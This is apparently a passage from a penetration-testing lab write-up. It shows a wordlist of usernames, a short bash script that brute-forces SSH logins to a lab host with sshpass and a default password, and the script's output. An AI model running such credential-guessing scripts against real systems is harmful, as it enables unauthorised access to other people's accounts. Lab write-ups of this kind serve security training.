```
randy
carlson
randycarlson
rcarlson
developer
pabloroberts
pablo
roberts
proberts
founder
bessiehammond
bessie
hammond
bhammond
programmer 
gerardomalone
gerardo
malone
gmalone
juniordesigner
junior
designer
sabrina 
```
{% endtab %}

{% tab title="script.sh" %}
```bash
#!/bin/sh
# Bruteforce known users against SSH with password CHANGEME

for user in $(cat users.txt); 
do
    echo "Trying '$user'..."
    sshpass -p CHANGEME ssh -p 2222 $user@172.16.64.166 2>/dev/null
    if [ $? -eq 0 ]; then
        exit
    fi
done;
```
{% endtab %}

{% tab title="Output" %}
```
$ sh script.sh                              
Trying 'elizabeth'...
Trying 'Lopez'...
Trying 'elizabethlopez'...
Trying 'elopez'...
Trying 'managingdirector'...
Trying 'director'...
Trying 'manager'...
Trying 'tara'...
Trying 'baker'...
Trying 'tarabaker'...
Trying 'tbaker'...
Trying 'designer'...
Trying 'beckycasey'...
Trying 'becky'...
Trying 'casey'...
Trying 'bcasey'...
Trying 'project'...
Trying 'manager'...
Trying 'projectmanager'...
```